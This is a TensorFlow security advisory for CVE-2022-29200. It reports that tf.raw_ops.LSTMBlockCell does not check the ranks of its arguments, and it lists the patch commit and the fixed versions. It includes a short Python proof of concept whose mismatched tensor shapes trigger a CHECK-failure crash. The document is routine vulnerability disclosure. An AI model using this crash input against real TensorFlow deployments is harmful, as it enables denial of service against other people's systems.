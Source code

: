 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-069.md
## TFSA-2022-069: Missing validation causes denial of service via `LSTMBlockCell`

### CVE Number
CVE-2022-29200

### Impact
The implementation of [`tf.raw_ops.LSTMBlockCell`](https://github.com/tensorflow/tensorflow/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/tensorflow/core/kernels/rnn/lstm_ops.cc) does not fully validate the input arguments. This results in a `CHECK`-failure which can be used to trigger a denial of service attack:

```python
import tensorflow as tf

tf.raw_ops.LSTMBlockCell(
  x=tf.constant(0.837607, shape=[28,29], dtype=tf.float32),
  cs_prev=tf.constant(0, shape=[28,17], dtype=tf.float32),
  h_prev=tf.constant(0.592631638, shape=[28,17], dtype=tf.float32),
  w=tf.constant(0.887386262, shape=[46,68], dtype=tf.float32),
  wci=tf.constant(0, shape=[], dtype=tf.float32),
  wcf=tf.constant(0, shape=[17], dtype=tf.float32),
  wco=tf.constant(0.592631638, shape=[28,17], dtype=tf.float32),
  b=tf.constant(0.75259006, shape=[68], dtype=tf.float32),
  forget_bias=1, cell_clip=0, use_peephole=False)
```

The code does not validate the ranks of any of the arguments to this API call. This results in `CHECK`-failures when the elements of the tensor are accessed.

### Patches
We have patched the issue in GitHub commit [803404044ae7a1efac48ba82d74111fce1ddb09a](https://github.com/tensorflow/tensorflow/commit/803404044ae7a1efac48ba82d74111fce1ddb09a).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
